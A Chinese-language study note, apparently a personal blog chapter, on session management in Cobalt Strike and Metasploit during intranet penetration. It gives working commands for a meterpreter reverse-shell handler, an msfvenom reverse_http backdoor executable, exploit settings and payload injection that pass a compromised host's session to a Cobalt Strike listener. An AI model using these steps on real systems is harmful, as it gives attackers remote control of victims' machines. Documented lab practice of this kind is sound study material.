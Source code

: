 ﻿---
title: 5.Session_Manage
categories:
- Network_Security
- Intranet_Infiltration
- Cobalt_Strike
tags:
- Network_Security
date: 2024-04-05 13:32:28
---

# 第五章 会话管理

## 1. 不同 listener 之间的会话转移

1. 右键会话(spawn) --> 选择其他的 listener



## 2. 不同的 teamserver 之间的会话转移

1. 在新的 teamserver 中创建监听器 --> 右键会话转移(spawn) --> 选择刚刚新建的监听器



## 3. cobalt strike 派生 metasploit 会话

1. 首先在 metasploit 中创建监听（这里使用 reverse_tcp ）：

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.43.106
    set lport 4444
    exploit -j
    ```

    结果：

    ![image-20220124112805508](image-20220124112805508.png)

     补充：

    jobs 命令可以查看后台的任务项。例如：

    ![image-20220124112902547](image-20220124112902547.png)

    使用 `kill <id>` 可以关闭某个任务

2. 在 cobalt strike 中新建监听器，这里根据上文的监听类型，选择对应的监听器种类：

    ![image-20220124113114337](image-20220124113114337.png)

    这里要注意的是：

    1. Payload 要选择之间 msf 中设置的，要选 foreign
    2. 主机和端口要和刚刚在 msf 中设置的一致。

3. 在 cobalt strike 中选择要转移的会话，选择刚刚建立的监听器即可。

    <img src="会话管理.assets/image-20220124113505915.png" alt="image-20220124113505915" style="zoom:80%;" />

    

## 4. metasploit 生成木马和 cobalt strike 会话

1. 首先利用 metasploit 生成一个反弹 http shell：

    `msfvenom -p windows/meterpreter/reverse_http lhost=192.168.43.106 lport=55555 -f exe > shell_tcp_43.106_55555.exe`

2. 在 cobalt strike 中设置监听器。这里的监听器为 windows/beacon_http/reverse_http

    ![image-20220124153005256](image-20220124153005256.png)

3. 靶机执行 shell，获得会话。

    其实这里的 cobalt strike 相当于 msf 的 handler。



## 5. metasploit 利用 exp 将会话转给 cobalt strike

1. 正常使用攻击 exp。
2. 设置 payload 的时候选择与 cobal strike 中设置的监听器相同类型的 payload。例如都是 reverse_http
3. 设置 Lhost 和 Lport 都是 cobalt strike 监听器的主机地址和端口。
4. `set disablepayloadhandler True` 。将 DisablePayLoadHandler 设置为 true。这告诉 metasploit 框架，它不需要在metasploit 框架内创建处理程序来服务有效负载连接。
5. `set PrependMigrate true`。这个选项告诉 metasploit 框架修改其 stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。
6. 个人实验时利用的是 ms16\_032 exp。在 msf 设置 payload 的时候，虽然设置其为 reverse_http，但最终 show options 的时候还是 reverse_tcp。最终在 cobalt strike 中依旧无法获得会话。



## 6. metasploit session 派生 cobalt strike 会话

1. 首先利用 exp 产生 session。

2. 将获得的 session 通过 `background` 置于后台。

3. 利用以下模块：

    ```bash
    use exploit/windows/local/payload_inject
    # 这里设置具体的 session
    set session x
    # 这里设置的 payload 要和 cobalt strike 中设置的监听器的配置一致
    set payload windows/meterpreter/reverse_http
    # cobalt strike 监听器的主机地址
    set lhost 192.168.0.106
    # cobalt strike 监听器的端口地址
    set lport 1234
    set DisablePayloadHandler true
    exploit -j
    ```

4. 结果如下：

    ![image-20220125205227167](image-20220125205227167.png)

    
